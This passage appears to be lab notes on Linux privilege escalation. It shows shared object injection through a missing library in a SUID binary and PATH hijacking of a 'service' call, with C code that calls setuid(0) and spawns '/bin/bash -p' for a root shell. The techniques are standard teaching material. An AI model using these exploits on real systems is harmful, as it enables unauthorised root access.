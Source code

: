 #### Shared Object Injection

```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
See where the missing file should be placed and create a path to that compiled file.

```
mkdir /home/user/.config
gcc -shared -fPIC -o <output.so file with the name of the shared library which was missing> <name of the .c file to compile>
```

The code should be something like this (-p preserves permissions)

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

Finally, run the binary and get root.

#### PATH Hijack

Run strings on the file to look for strings of printable characters:

```
strings <binary>
```

Extract: `service apache2 start` This means the service is being called from using the PATH variable.

```
nano service.c

int main() {
	setuid(0);
	system("/bin/bash -p");
}

gcc -o <output binary name> <code to be compiled location>
PATH=.:$PATH
or
PATH=<path to binary folder>:$PATH
/usr/local/bin/suid-env

```

This means we can compile code into a custom executable and place it in a writable location. Then we can add it to the PATH variable and run the original binary.
